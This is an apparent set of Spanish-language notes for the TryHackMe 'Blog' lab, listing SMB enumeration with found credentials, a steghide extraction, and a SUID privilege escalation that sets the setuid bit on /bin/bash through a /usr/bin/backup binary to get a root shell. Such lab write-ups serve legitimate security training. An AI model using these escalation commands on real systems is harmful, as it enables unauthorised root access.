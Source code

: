 # Blog - TryHackMe

**IP:**  10.10.19.84

## Enumeración SMB
```bash
smbclient //10.10.19.84/BillySMB
Credenciales: kwheel:cutiepie1
  ```

## Steganografía
```bash
steghide extract -sf alice-rabbit-hole
Contraseña: alice
  ```
## Escalada SUID
```bash
find / -perm -4000 2>/dev/null
Explotación de /usr/bin/backup:
  ```
```bash
echo 'chmod +s /bin/bash' > /tmp/exploit
/usr/bin/backup /tmp/exploit
/bin/bash -p
  ```